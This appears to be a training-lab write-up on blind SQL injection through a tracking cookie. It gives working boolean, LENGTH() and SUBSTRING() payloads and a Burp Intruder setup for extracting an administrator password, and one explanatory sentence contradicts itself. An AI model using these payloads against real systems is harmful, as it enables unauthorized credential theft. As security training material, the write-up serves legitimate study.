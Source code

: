 # Lab: Blind SQL injection with conditional responses
## Lab
This lab contains a __blind SQL injection__ vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a _"Welcome back"_ message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind __SQL injection__ vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Hint

You can assume that the password only contains lowercase, alphanumeric characters.

## Solution

When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using an SQL query like this: 
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO'
```

Inject some conditions after TrackingId to check the boolean value of the query:
```SQL
' AND '1' = '1
' AND '1' = '2
```
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' AND '1' = '1'
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' AND '1' = '2'
```

The application still returns result containing *Welcome back*, because the condition `'1' = '1` is TRUE. If we modify the condition to `'1' = '2` then the *Welcome back* message will be displayed because the query return false. application think that the cookie don't exist (this is new client) so that the application dont displayed *Welcome back* message.

Thanks for topic we know there is a table is `users` contain two columns are `username` and `password`. In `username` column have `administrator` user. 

Modify that addition condition to:
```SQL
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 1) = 'a
```
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 1) = 'a'
```
Why we modified like that?
Because the result return for us just is boolean TRUE or FALSE of query select TrackingId, we use TRUE TrackingId for the application return TRUE combined with AND operator to join a conditional we want to check.
To find out password, fisrt we need check the length of password with condition `LENGTH(password) > 1` if that length greater than 1 the query is TRUE and application returns result containing _Welcome back_ message. Continue to increase the length to 2, 3, 4, ... until the _Welcome back_ message doesn't appear in returned result, that's the password length we look for!
Why we have to use this query:
```SQL
SELECT 'a' FROM users WHERE username = 'administrator' ... = 'a
```
Because the password we want to check is in table `users`, so that we use `FROM users` and `WHERE username... AND password...`.
And why `SELECT 'a'`? because at the end of query have a apostrophe (') to close the string, so that we need `SELECT 'a'` to query same `'a'='a'` (return TRUE).
All other conditions return TRUE, the only condition `LENGTH(password) > 1` to determine the value TRUE or FALSE of returned result.

After increase length to 20 (LENGTH(password) > 20) the _Welcome back_ message disappear. So we confirm that password length is 20.
Next step is brute force each value in each index of password. To do that we need use `SUBSTRING()` function:
```SQL
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a
```
To put it simply `SUBSTRING(string,index,length)` function extract `string` from `index` with `length` is number of characters. Addition condition above take first character in password compare with character 'a', if the first character of password is 'a' the query will return TRUE and the _Welcome back_ message will display. But no one does it manually :v
Send this request into Intruder and modify payload:
```SQL
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username = 'administrator') = '§a§
```
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username = 'administrator') = '§a§'
```

And select attack type is Cluster bomb.The first payload type is numbers from 1 to 20 and step is 1, the second payload type is simple list and we add characters a-z and 0-9, combimed with rep _Welcome back_ in tab Options.

> administrator - ff7rc95ysx1n8wg90gcn